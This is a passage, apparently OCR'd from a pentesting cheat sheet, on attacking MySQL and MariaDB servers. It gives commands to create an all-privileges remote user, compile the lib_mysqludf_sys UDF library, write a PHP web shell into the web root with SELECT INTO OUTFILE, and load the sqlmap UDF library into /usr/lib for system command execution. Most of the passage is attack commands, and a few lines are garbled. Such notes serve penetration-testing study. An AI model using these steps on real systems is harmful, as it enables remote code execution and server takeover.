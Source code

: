 ```
mysql> CREATE USER 'user'@'%' IDENTIFIED BY 'some_pass';
```

```
mysql> GRANT ALL PRIVILEGES ON *.* TO 'user'@'%'
    ->     WITH GRANT OPTION;
```

#### Applying on MariaDB

Everything we did above stays the same for mariadb excep when we download the shared object from the specified URL above, the content of the Makefile should be like below

```
#LIBDIR=/usr/lib
#install:
#gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include
#/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
```

Next thing from kali command like we type:

```
root@kali$:Make gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb
/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
```

Everything else, the steps for MYSQL are the same

### PhpMyAdmin – mysql command line

In the sql editor, paste the following command

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell3.php"
```

Browse to the URL/shell3.php?cmd=\[your-command]

### Using UDFs and System functions with sharmysql> use mysql;

* Linux Download the share library from here

```
https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/64
```

```
mysql> create table potato(line blob);
```

```
mysql> insert into potato values(load_file('/tmp/lib_mysqludf_sys.so'));
```

```
mysql> select * from potato into dumpfile '/usr/lib/lib_mysqludf_sys.so';
```
